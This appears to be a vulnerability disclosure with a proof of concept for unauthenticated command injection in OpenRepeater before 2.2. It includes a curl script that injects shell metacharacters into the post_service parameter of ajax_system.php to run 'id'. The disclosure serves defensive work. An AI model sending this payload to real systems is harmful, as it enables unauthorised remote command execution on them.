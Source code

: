 # Vulnerability Type

OS Command Injection

# Description

OpenRepeater (ORP) before 2.2 allows unauthenticated command injection via shell metacharacters in the functions/ajax_system.php post_service parameter.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/OpenRepeater/openrepeater
 - Version: 2.1
 - Tested on: Ubuntu

 ## Exploit Description

OS command injection occurs via the `post_service` parameter in `functions/ajax_system.php`.

 ## Steps to Reproduce

 1. Send the POST request.
 1. Observe the result and  injected command (e.g., uid=...) will appear.

 ## Proof Of Concept
```
# PoC for OS Command Injection in OpenRepeater before version 2.2

# The target URL for the vulnerable endpoint
TARGET_URL="http://openrepeater/functions/ajax_system.php"

# The payload to execute an arbitrary command, e.g., 'id' to demonstrate the vulnerability
PAYLOAD="post_service=;id"

# Sending the payload using curl
curl -X POST -d "$PAYLOAD" "$TARGET_URL"
```


